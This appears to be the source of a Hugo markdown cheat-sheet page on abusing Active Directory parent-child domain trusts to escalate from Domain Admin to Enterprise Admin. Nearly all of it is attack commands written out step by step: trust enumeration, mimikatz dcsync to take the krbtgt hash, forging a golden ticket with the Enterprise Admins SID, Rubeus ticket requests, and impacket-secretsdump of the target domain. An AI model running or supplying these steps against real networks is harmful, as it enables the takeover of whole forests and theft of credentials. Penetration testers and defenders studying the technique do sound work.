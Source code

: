 ```yaml
---
title: "Abuse Parent Child Domain Trusts"
date: 2024-7-2
tags: ["kerberos", "da", "ea", "active directory", "ad", "domain controller", "Windows", "golden ticket", "privesc", "mimikatz", "rubeus", "trusts"]
---
```


### Privesc from DA (Domain Admin) to EA (Enterprise Admin)

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Check trust relationships

```console
# Get all trusted domain objects in a forest
Get-ADTrust -Filter *
```

```console
# Returns a list of trusted domains
nltest /domain_trusts
```

```console
# Gets a collection of the trust relationships of the current forest
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

#### 2. Get current and target domain SID

```console
.\mimikatz.exe 'lsadump::trust' 'exit'
```

#### 3. Get krbtgt hash of current domain

```console
.\mimikatz.exe 'lsadump::dcsync /all /csv' 'exit'
```

#### 4. Forge a golden ticket

```console
# Append '-519' to target domain SID (Enterprise Admins Group)
.\mimikatz.exe 'kerberos::golden /user:Administrator /rc4:<HASH> /domain:<CURRENT_DOMAIN> /sid:<CURRENT_DOMAIN_SID> /sids:<TARGET_DOMAIN_SID>-519 /ticket:C:\ProgramData\ticket.kirbi' 'exit'
```

<small>*Note: Try different high value hashes if failed*</small>

#### 5. Request a service ticket of target domain

```console
.\rubeus.exe asktgs /service:cifs/<TARGET_DOMAIN> /domain:<DOMAIN> /dc:<DC> /ticket:C:\ProgramData\ticket.kirbi /outfile:C:\ProgramData\ticket_2.kirbi /nowrap /ptt
```

{{< /tabcontent >}}

#### 6. Secrets Dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Convert kirbi to ccache

```console
python3 rubeustoccache.py <BASE64_TICKET> administrator.kirbi administrator.ccache
```

#### 2. Secrets Dump

```console
export KRB5CCNAME=administrator.ccache
```

```console
impacket-secretsdump administrator@<TARGET_DOMAIN> -k -no-pass
```

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}
